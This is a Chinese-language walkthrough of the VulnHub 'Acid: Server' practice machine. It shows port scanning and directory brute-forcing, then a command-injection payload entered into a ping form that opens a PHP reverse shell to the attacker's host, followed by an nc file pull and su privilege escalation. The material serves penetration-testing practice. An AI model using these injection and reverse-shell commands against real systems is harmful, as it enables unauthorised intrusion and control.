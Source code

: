 # ACID: SERVER

> https://download.vulnhub.com/acid/Acid.rar

靶场IP：`192.168.32.205`

扫描对外端口服务

```
┌──(root💀kali)-[/tmp]
└─# nmap -p 1-65535 -sV  192.168.32.205                                                                                                                                                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 01:37 EDT
Nmap scan report for 192.168.32.205
Host is up (0.0012s latency).
Not shown: 65534 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
33447/tcp open  http    Apache httpd 2.4.10 ((Ubuntu))
MAC Address: 00:0C:29:FF:21:11 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.71 seconds

```

访问33447端口

![image-20220906134133510](../../.gitbook/assets/image-20220906134133510.png)

访问`/Challenge`目录

![image-20220906134208898](../../.gitbook/assets/image-20220906134208898.png)

爆破目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -u http://192.168.32.205:33447/Challenge -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 2>/dev/null
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.205:33447/Challenge
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/06 01:43:22 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 1333]
/css                  (Status: 301) [Size: 333] [--> http://192.168.32.205:33447/Challenge/css/]
/includes             (Status: 301) [Size: 338] [--> http://192.168.32.205:33447/Challenge/includes/]
/js                   (Status: 301) [Size: 332] [--> http://192.168.32.205:33447/Challenge/js/]      
/include.php          (Status: 302) [Size: 0] [--> protected_page.php]                               
/styles               (Status: 301) [Size: 336] [--> http://192.168.32.205:33447/Challenge/styles/]  
/error.php            (Status: 200) [Size: 309]                                                      
/cake.php             (Status: 200) [Size: 496]                                                      
/hacked.php           (Status: 302) [Size: 0] [--> protected_page.php]                               
/less                 (Status: 301) [Size: 334] [--> http://192.168.32.205:33447/Challenge/less/] 
```

访问`/cake.php  `发现`/Magic_Box/`

![image-20220906134430868](../../.gitbook/assets/image-20220906134430868.png)

访问`/Magic_Box/`

![image-20220906134528635](../../.gitbook/assets/image-20220906134528635.png)

继续爆破路径

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -u http://192.168.32.205:33447/Challenge/Magic_Box/ -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 2>/dev/null
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.205:33447/Challenge/Magic_Box/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/09/06 01:45:48 Starting gobuster in directory enumeration mode
===============================================================
/low.php              (Status: 200) [Size: 0]
/command.php          (Status: 200) [Size: 594]
/proc                 (Status: 301) [Size: 344] [--> http://192.168.32.205:33447/Challenge/Magic_Box/proc/]

```

找到一个ping命令执行页面

![image-20220906134739504](../../.gitbook/assets/image-20220906134739504.png)

添加多一个`/`就可以访问

![image-20220906134919641](../../.gitbook/assets/image-20220906134919641.png)

在输入框输入反弹shell

```
0;php -r '$sock=fsockopen("192.168.32.130",12345);exec("/bin/sh -i <&3 >&3 2>&3");'
```

查找有意思的文件

![image-20220906135710560](../../.gitbook/assets/image-20220906135710560.png)

![image-20220906135921203](../../.gitbook/assets/image-20220906135921203.png)

```
┌──(root💀kali)-[/tmp]
└─# nc -lvp 1234 > hint.pcapng
listening on [any] 1234 ...
192.168.32.205: inverse host lookup failed: Unknown host
connect to [192.168.32.130] from (UNKNOWN) [192.168.32.205] 41308

```

分析数据包，获取到以下内容。

```
heya
hello
What was the name of the Culprit ???
saman and now a days he's known by the alias of 1337hax0r
oh...Fuck....Great...Now, we gonna Catch Him Soon :D
Yes .. We have to !! The mad bomber is on a rage
Ohk...cya
Over and Out
```

![image-20220906140033419](../../.gitbook/assets/image-20220906140033419.png)

su提权成功

![image-20230208133555839](../../.gitbook/assets/image-20230208133555839.png)
